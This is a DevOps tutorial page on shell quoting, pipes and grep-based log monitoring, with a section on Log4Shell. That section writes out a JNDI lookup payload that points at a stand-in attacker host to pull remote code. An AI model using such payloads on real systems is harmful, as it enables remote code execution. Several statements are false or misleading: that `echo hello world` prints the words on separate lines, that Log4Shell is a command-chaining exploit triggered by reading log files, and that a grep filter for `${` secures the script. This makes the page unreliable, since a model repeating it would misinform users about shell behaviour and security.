

## Command Chaining with Input and Output Redirection

In the world of DevOps, efficient command chaining and redirection are fundamental skills that can significantly enhance productivity and streamline workflows. This section delves deep into the concepts of chaining commands, input and output redirection, and the powerful `pipe` operator (`|`). We'll explore how these tools work under the hood, their practical applications, and how to secure your command chains against potential vulnerabilities.

### Understanding Quotes in Command Line Arguments

When working with command line arguments, it's crucial to understand the role of quotes. In Unix-like systems, quotes are used to group multiple words into a single argument. This is particularly important when dealing with spaces within a string.

#### Without Quotes

If you have a single word without spaces, you can pass it directly to a command without quotes:

```sh
echo hello
```

This command simply prints `hello`.

#### With Quotes

However, if you have a multi-word phrase, you must enclose it in quotes to ensure it is treated as a single argument:

```sh
echo "hello world"
```

Without quotes, the shell would interpret `hello` and `world` as separate arguments, leading to unexpected behavior:

```sh
echo hello world
```

Here, `echo` would print `hello` followed by `world`, but each on a new line due to the lack of quotes.

### Basic Command Execution

Let's start with a simple command execution. Consider the `history` command, which lists the commands you've run previously:

```sh
history
```

This command outputs a list of all commands executed in the current session. However, this list can be quite lengthy and difficult to read.

### Filtering Output with `grep`

To make the output more manageable, we can use the `grep` command to filter specific lines. For instance, let's filter out only the commands that contain the word `pseudo`:

```sh
history | grep pseudo
```

Here, `history` generates the list of commands, and `grep` filters out only those containing `pseudo`. The `|` symbol is the pipe operator, which takes the output of the first command and passes it as input to the second command.

### Using `less` for Paginated Output

The output of `history | grep pseudo` might still be too large to read comfortably. To paginate the output, we can use the `less` command:

```sh
history | grep pseudo | less
```

Now, the output of `grep` is passed to `less`, which allows you to scroll through the results page by page. You can navigate using the arrow keys, `Page Up`, `Page Down`, and other `less` commands.

### Detailed Example: Full Command Chain

Let's break down the full command chain:

```sh
history | grep pseudo | less
```

1. **`history`**: Generates a list of all commands executed in the current session.
2. **`grep pseudo`**: Filters the output of `history` to include only lines containing the word `pseudo`.
3. **`less`**: Takes the filtered output and displays it in a paginated format.

### Mermaid Diagram for Command Flow

A visual representation can help understand the flow of data between commands:



### Practical Applications and Real-World Examples

Command chaining and redirection are widely used in various scenarios, such as log analysis, system monitoring, and automation scripts. For instance, consider a scenario where you need to monitor a log file for specific error messages and alert if they occur:

```sh
tail -f /var/log/syslog | grep "error" | mail -s "Error Detected" admin@example.com
```

Here, `tail -f` continuously reads the end of the log file, `grep` filters out lines containing "error", and `mail` sends an email notification to the administrator.

### Recent Real-World Example: CVE-2021-44228 (Log4Shell)

The Log4Shell vulnerability (CVE-2021-44228) is a critical example of how command chaining and redirection can be exploited. Attackers could inject malicious payloads into logs, which were then processed by vulnerable Java applications. By chaining commands and redirecting output, attackers could execute arbitrary code on the server.

For instance, an attacker might inject a payload into a log file:

```sh
echo "${jndi:ldap://attacker.example.com/a}" >> /var/log/app.log
```

Then, a vulnerable application reading this log file could execute the injected command, leading to remote code execution.

### How to Prevent / Defend

#### Secure Coding Practices

1. **Validate Inputs**: Ensure that all inputs are validated and sanitized to prevent injection attacks.
2. **Use Secure Libraries**: Keep all libraries and dependencies up to date and use versions that are patched against known vulnerabilities.

#### Secure Configuration

1. **Limit Permissions**: Restrict permissions on log files and other sensitive files to prevent unauthorized access.
2. **Monitor Logs**: Regularly monitor logs for suspicious activity and set up alerts for potential threats.

#### Detection and Prevention Tools

1. **IDS/IPS Systems**: Implement Intrusion Detection and Prevention Systems to monitor and block suspicious activities.
2. **Security Scanners**: Use tools like Trivy, tfsec, and others to scan for vulnerabilities in your infrastructure and code.

### Complete Code Example: Vulnerable vs. Secure

#### Vulnerable Code

```sh
# Vulnerable script
tail -f /var/log/app.log | grep "error" | mail -s "Error Detected" admin@example.com
```

#### Secure Code

```sh
# Secure script
tail -f /var/log/app.log | grep -E "^[^${]*$" | grep "error" | mail -s "Error Detected" admin@example.com
```

In the secure version, we added an additional `grep` command to filter out any lines containing `${`, which helps prevent injection attacks.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on command injection and other security topics.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various security techniques.
- **DVWA (Damn Vulnerable Web Application)**: Another great resource for learning about web application security.

By mastering command chaining and redirection, you can significantly enhance your productivity and security in DevOps environments. Always remember to validate inputs, limit permissions, and regularly monitor your systems for potential threats.

---
<!-- nav -->
[[06-Chaining Commands with InputOutput Redirection|Chaining Commands with InputOutput Redirection]] | [[DevOps/DevOps Bootcamp/11-Miscellaneous/03-Chaining Commands with Input Output Redirection/00-Overview|Overview]] | [[DevOps/DevOps Bootcamp/11-Miscellaneous/03-Chaining Commands with Input Output Redirection/08-Practice Questions & Answers|Practice Questions & Answers]]
